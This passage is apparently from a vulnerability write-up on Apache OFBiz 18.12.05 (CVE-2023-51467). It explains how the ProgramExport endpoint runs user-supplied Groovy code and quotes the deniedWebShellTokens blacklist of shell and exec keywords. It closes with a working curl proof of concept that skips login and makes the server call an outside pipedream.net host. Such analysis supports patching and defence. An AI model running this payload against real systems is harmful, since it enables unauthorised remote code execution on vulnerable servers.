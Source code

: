 A `groovyShell` is initialised and eventually the parameter `groovyProgram` is passed onto groovy shell, effectively getting our code executed. An interesting thing to note is the usage of `org.apache.ofbiz.security.SecuredUpload.isValidText(groovyProgram,["import"])`, which is essentially taking our parameter and along with a second argument namely string "import".

**File**: *ofbiz-framework-release18.12.05/framework/security/src/main/java/org/apache/ofbiz/security/SecuredUpload.java*
{% highlight java lineos %}
100:   private static final List<String> DENIEDWEBSHELLTOKENS = deniedWebShellTokens();
.
.
623:   public static boolean isValidText(String content, List<String> allowed) throws IOException {
624:       return DENIEDWEBSHELLTOKENS.stream().allMatch(token -> isValid(content, token, allowed));
625:   }
.
.
644:   private static List<String> deniedWebShellTokens() {
645:       String deniedTokens = UtilProperties.getPropertyValue("security", "deniedWebShellTokens");
646:       return UtilValidate.isNotEmpty(deniedTokens) ? StringUtil.split(deniedTokens, ",") : new ArrayList<>();
647:   }
{%endhighlight%}

isValidText() internally called `DENIEDWEBSHELLTOKENS.stream()` which is nothing but `deniedWebShellTokens()` function which seems to be returning based on some pre-defined property value.

**File**: *ofbiz-framework-release18.12.05/framework/security/config/security.properties*
{% highlight bash lineos %}
deniedWebShellTokens=freemarker,import=\"java,runtime.getruntime().exec(,<%@ page,<script,<body>,<form,php,javascript,%eval,@eval,import os,passthru,exec,shell_exec,assert,str_rot13,system,phpinfo,base64_decode,chmod,mkdir,fopen,fclose,new file,import,upload,getfilename,download,getoutputstring,readfile
{%endhighlight%}

This seems like a simple blacklist based filtering, bypassing which will give us direct code execution. 

## POC

{% highlight bash lineos %}
curl -vv -X POST "https://localhost:8443/webtools/control/ProgramExport?USERNAME&PASSWORD=test&requirePasswordChange=Y" -d 'groovyProgram=def%20result%20%3D%20%22curl%20https%3A%2F%2Fen3d5squ4eacq.x.pipedream.net%22.execute().text%3B' --insecure
{%endhighlight%}

## References:

1. [packtpub](https://subscription.packtpub.com/book/programming/9781847199188/1/ch01lvl1sec10/locating-an-ofbiz-component){:target="_blank"}

2. [y4tacker.github.io](https://y4tacker.github.io/2023/12/27/year/2023/12/Apache-OFBiz%E6%9C%AA%E6%8E%88%E6%9D%83%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%B5%85%E6%9E%90-CVE-2023-51467/){:target="_blank"}